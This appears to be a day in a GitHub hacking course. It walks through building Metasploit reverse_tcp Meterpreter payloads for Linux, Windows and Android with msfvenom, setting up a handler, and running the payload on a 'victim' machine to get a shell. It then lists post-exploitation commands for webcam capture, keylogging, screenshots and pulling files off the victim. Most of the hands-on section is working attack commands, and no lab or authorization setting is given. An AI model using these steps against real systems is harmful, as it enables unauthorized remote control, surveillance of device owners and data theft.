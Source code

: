 # Day 5 (SYSTEM HACKING)

### What is System Hacking?

System hacking is itself a vast subject which consists of hacking the different software based technological systems such as laptops, desktops, etc. System hacking is defined as the compromise of computer systems and software to gain access to the target computer and steal or misuse their sensitive information. Here the malicious hacker exploits the weaknesses in a computer system or network to gain unauthorized access of its data or take illegal advantage of it.

### Tools Used

**Metasploit** : Metasploit is an open source cyber-security project that allows infosec professionals to use different penetration testing tools to discover remote software vulnerabilities. It also functions as an exploit module development platform.


### Hands on 
####1. Creating Metasploit Payloads(Files)
#####List payloads
```sh
msfvenom -l
```
#####Binaries
######Linux
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf -o shell.elf
```
######Windows
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe -o shell.exe
```
######Android
```sh
msfvenom -p android/meterpreter/reverse_tcp -f apk LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f apk  -o shell.apk
```

####2. Setting Listner Up(Handler)
First open MSFCONSOLE, use the following command to open the metasploit console :

```sh
msfconsole
```
Once the console has started you need to create an appropriate handler to communicate with your payloads.
Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

```sh
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
exploit -i -j
```

####3. Executing the Payload
Copy the payload file to our target Windows machine and execute the file. The executable causes the payload to be executed and connect back to the attacking machine (Kali Linux). Immediately, we receive a Meterpreter session on our Kali Linux. This is demonstrated by the Meterpreter > prompt as `Meterpreter session 1 opened `. Now we have a shell on the victim machine.

####4. Basic Commands on Meterpreter

To connect to a particular session type

```sh
sessions -i <sessions id which is open>
```

###### List of Basic Commands

1. **?** : Help menu
2. **shell** : The shell command will present you with a standard shell on the target system.
3. **webcam_list** : The webcam_list command when run from the Meterpreter shell, will display currently available web cams on the target host.
4. **webcam_snap** : The webcam_snap command grabs a picture from a connected web cam on the target system
```webcam_snap -i 1```
5. **keyscan_dump** : dumps the contents of the software keylogger
6. **keyscan_start** : starts the software keylogger when associated with a process such as Word or browser
7. **keyscan_stop** : stops the software keylogger
8. **screenshot** : grabs a screenshot of the meterpreter desktop
9. **download** : download a file from the victim system to the attacker system
10 . **upload** : upload a file from the attacker system to the victim

### Further Reading

1. [Metasploit](https://www.youtube.com/watch?v=Y6NI12OAMWc&list=PLF23494E2820B442B)